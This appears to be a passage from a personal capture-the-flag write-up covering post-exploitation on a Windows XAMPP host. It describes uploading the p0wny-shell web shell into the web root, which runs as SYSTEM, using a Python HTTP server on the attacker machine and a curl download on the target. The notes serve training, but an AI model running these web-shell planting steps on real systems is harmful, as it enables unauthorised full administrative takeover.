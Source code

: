 ## post-exploitation
![[Pasted image 20250204194722.png]]

remember10/22/2023  09:10 PM   xampp
By exploiting the permissions associated with the "drbrown" user, an attacker could potentially upload a malicious PHP file into the web server’s root directory (C:\xampp\htdocs). This vulnerability is particularly severe because the web server is running under the NT AUTHORITY\SYSTEM account, which possesses full administrative rights on the Windows system. This elevated privilege allows the attacker to execute the uploaded malicious file with system-level access.



---

```cmd
C:\xampp>cd htdocs
```
- https://github.com/flozz/p0wny-shell/blob/master/shell.php
- ITS WEB BASED SHELL
in my pwn-BOX
```bash
┌──(pwn㉿kali)-[~/Downloads]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.241 - - [04/Feb/2025 11:59:08] "GET /shell.php HTTP/1.1" 200 -


```

target:
```cmd
curl http://10.10.14.5/shell.php -o powny.php
```

![[Pasted image 20250204200112.png]]